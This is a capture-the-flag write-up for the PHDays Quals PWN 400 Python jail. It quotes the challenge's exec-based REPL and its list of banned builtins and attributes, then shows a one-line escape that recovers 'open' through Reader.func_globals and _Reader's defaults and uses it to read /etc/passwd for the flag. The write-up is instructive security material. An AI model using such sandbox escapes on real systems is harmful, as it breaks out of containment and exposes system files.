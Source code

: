 # PHDays Quals PWN 400

PWN 400 is a python jail. We are given a python REPL, but most useful
functions and builtins are deleted from the global namespace. We are
offered one function, **Reader(filename)**, but it can only read three
files:

* log.1
* log.2
* log.3

The files contain dumps of trollfaces :(.

We're also given the source code, which has two files.

**pyjail.py** is the REPL. This is the most important code:

    inp = raw_input('>>> ')
    a = None
    exec 'a=' + inp

**secure_reader.py** is the script that makes the REPL annoying to use.

    UNSAFE_BUILTINS = [
        'open', 'file', 'execfile', 'reload', 'input', 'eval', 'type', 'compile'
        ]

    UNSAFE_ATTRS = [
        '__globals__', '__closure__'
        ]

    ALLOWED_FILES = [
        'log.1', 'log.2', 'log.3'
        ]

...

    del dictionary_of(type)['__subclasses__']
    del dictionary_of(GeneratorType)['gi_frame']
    del dictionary_of(FrameType)['f_code']
    del dictionary_of(FrameType)['f_builtins']
    del dictionary_of(FrameType)['f_globals']
    del dictionary_of(GeneratorType)['gi_code']

So it removes most of the usable functions. Here is how it defines the
Reader function:

    def _Reader(
        open_file=open,
        type=type,
        TypeError=TypeError,
        Namespace=Namespace,
        ):

        @guard(filename=str)
        def Reader(filename):
           if filename not in ALLOWED_FILES:
               raise ValueError("You can't read that shit!")
           data = open_file(filename).read()
           return data

        return Reader

    Reader = _Reader()

The outside function **_Reader** returns the inside function **Reader**,
which is what we have access to. It is important to realize that **if Reader
can read files at all, then it must have access to some file reading
mechanism**. It calls 'open_file', which is really just an alias to
'open'. We get the open function through the Object Tree starting with
the Reader function.

    Reader.func_globals['_Reader'].func_defaults[0]

We can also read the **/etc/passwd** file directly now

    Reader.func_globals['_Reader'].func_defaults[0]('/etc/passwd').read()

Which contains the flag in plaintext.

    41f20268caa093e1b746e5ca750d3aa0
